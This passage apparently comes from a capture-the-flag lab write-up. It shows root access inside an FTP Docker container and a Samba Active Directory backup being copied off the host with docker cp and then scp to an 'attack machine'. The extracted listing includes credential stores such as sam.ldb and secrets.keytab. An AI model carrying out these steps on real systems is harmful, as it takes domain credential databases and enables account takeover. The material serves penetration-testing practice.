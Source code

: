 ```shell-session
root@ftp:/ftp# ls -la volumes/
total 16
drwxr-xr-x 4 root root 4096 Jan 25 08:36 .
drwxr-xr-x 3 root root 4096 Feb 24 19:56 ..
drw-rw---- 2 root root 4096 Jan 25 07:13 docker_src
drw-rw---- 2 root root 4096 Feb 17 20:33 domain_backup
```

There are some Duplicati backup files:

```shell-session
root@ftp:/ftp# ls -la volumes/docker_src/
total 140100
drw-rw---- 2 root root     4096 Jan 25 07:13 .
drwxr-xr-x 4 root root     4096 Jan 25 08:36 ..
-rw-rw---- 1 root root   142245 Jan 25 07:13 duplicati-20240125T071045Z.dlist.zip
-rw-rw---- 1 root root 38225049 Jan 25 07:13 duplicati-b71dd219377964328aa2c79f4bc7354a5.dblock.zip
-rw-rw---- 1 root root 52343646 Jan 25 07:12 duplicati-b9d86c254096f4531b0be8e536a59ff07.dblock.zip
-rw-rw---- 1 root root 52344341 Jan 25 07:11 duplicati-ba27818c8bd7a4ea6a506fde8314c48d1.dblock.zip
-rw-rw---- 1 root root   139304 Jan 25 07:11 duplicati-i48680ba57a084652a109d584aebc63a9.dindex.zip
-rw-rw---- 1 root root    75366 Jan 25 07:12 duplicati-i570def036a8d475c9ec47b861bee206a.dindex.zip
-rw-rw---- 1 root root   161831 Jan 25 07:13 duplicati-ie324293d766446ddbe27823f52e30d4c.dindex.zip
```

There's also a Samba backup (likely of the AD database):

```shell-session
root@ftp:/ftp# ls -la volumes/domain_backup/
total 1628
drw-rw---- 2 root root    4096 Feb 17 20:33 .
drwxr-xr-x 4 root root    4096 Jan 25 08:36 ..
-rw-rw---- 1 root root 1654914 Feb 17 20:33 samba-backup-2024-02-17T20-32-13.580437.tar.bz2
```

Let's transfer it to our attack machine:

```shell-session
abbie@unintended.vl@backup:~$ docker cp scripts_ftp_1:/ftp/volumes/domain_backup/samba-backup-2024-02-17T20-32-13.580437.tar.bz2 .
Successfully copied 1.66MB to /home/abbie@unintended.vl/.
```

```shell-session
└─$ sshpass -p <ABBIE_PASS> scp abbie@unintended.vl@backup.unintended.vl:samba-backup-2024-02-17T20-32-13.580437.tar.bz2 .  
```

Extract the backup:

```shell-session
└─$ mkdir backup && tar -xvf samba-backup-2024-02-17T20-32-13.580437.tar.bz2 -C backup
sysvol.tar.gz
backup.txt
private/secrets.tdb
private/privilege.ldb
private/sam.ldb
private/dns_update_list
private/spn_update_list
private/schannel_store.tdb
private/krb5.conf
private/secrets.ldb
private/passdb.tdb
private/idmap.ldb
private/dns_update_cache
private/secrets.keytab
private/encrypted_secrets.key
private/hklm.ldb
private/share.ldb
private/tls/ca.pem
```